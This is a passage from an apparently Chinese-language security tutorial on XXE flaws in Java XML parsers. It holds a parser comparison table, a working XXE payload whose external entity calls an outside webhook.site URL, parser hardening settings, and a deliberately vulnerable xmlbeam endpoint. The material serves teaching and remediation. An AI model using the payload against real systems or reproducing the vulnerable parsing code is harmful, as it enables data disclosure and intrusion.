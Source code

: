 修复该漏洞只需升级dom4j到2.1.1及以上，该版本及以上禁用了ENTITY；不带ENTITY的PoC不能利用，所以禁用ENTITY即可完成修复。

#### 上述存在XXE漏洞库对比

| **工具/类**      | **简介**                                                 | **使用场景**                                  | **优点**                            | **缺点**                             |
| :--------------- | :------------------------------------------------------- | :-------------------------------------------- | :---------------------------------- | :----------------------------------- |
| `xmlReader`      | SAX 的接口，基于事件驱动的解析                           | 处理大型 XML 文件                             | 内存占用小，速度快                  | 需要手动管理上下文，处理复杂结构困   |
| `SAXBuilder`     | JDOM 中基于 SAX 的解析器                                 | 需要用 JDOM 处理 XML 数据时                   | 结合了 SAX 的高效性和 JDOM 的易用性 | 解析速度依赖于 SAX，灵活性低于 DOM   |
| SAXReader`       | Dom4j 中基于 SAX 的解析器                                | 需要 Dom4j 进行 XML 操作时                    | 高效且灵活，支持树结构              | 性能略逊于纯 SAX                     |
| `SAXParser`      | Java 中的 SAX 解析器                                     | 基于事件驱动的解析，适合处理大型 XML 文件     | 高效，内存占用小                    | 解析复杂 XML 需要手动处理回调        |
| Digester`        | 基于 SAX，将 XML 映射到 Java 对象（Apache Commons 提供） | 需要将 XML 映射为 Java 对象时                 | 简化 XML 与 Java 对象的映射         | 对大文件不友好，灵活性较低           |
| DocumentBuilder` | Java 中 DOM 解析器，用于构建树状结构                     | 需要完整树结构操作，如修改和多次遍历 XML 文件 | 完整保留文档结构，易于查找和修改    | 内存占用较大，处理大文件时性能较差   |
| `DocumentHelper` | Dom4j 提供的辅助类，用于快速创建和操作 XML 文档          | 需要手动构建和操作 XML 文档时                 | 快速创建和处理 XML 文档，灵活性高   | 内存占用较大，处理超大文件时性能不佳 |

#### 统一漏洞利用payload

```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "	http://webhook.site/186f2ce9-cf0c-4eda-ad3f-49c3873814a7">]><root>&xxe;</root>

```

![image-20250728112724781](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202507281127895.png)

#### 统一修复代码

```
//实例化解析类之后通常会支持着三个配置
obj.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
obj.setFeature("http://xml.org/sax/features/external-general-entities", false);
obj.setFeature("http://xml.org/sax/features/external-parameter-entities", false);

```

禁用了外部实体，限制实体来源。

#### 10./xxe/xmlbeam/vuln

```
        @PostMapping(value = "/xmlbeam/vuln")
        HttpEntity<String> post(@RequestBody UserPayload user) {
            try {
                logger.info(user.toString());
                return ResponseEntity.ok(String.format("hello, %s!", user.getUserName()));
            }catch (Exception e){
                e.printStackTrace();
                return ResponseEntity.ok("error");
            }
        }

        /**
         * The projection interface using XPath and JSON Path expression to selectively pick elements from the payload.
         */
        @ProjectedPayload
        public interface UserPayload {
            @XBRead("//userName")
            String getUserName();
        }

```

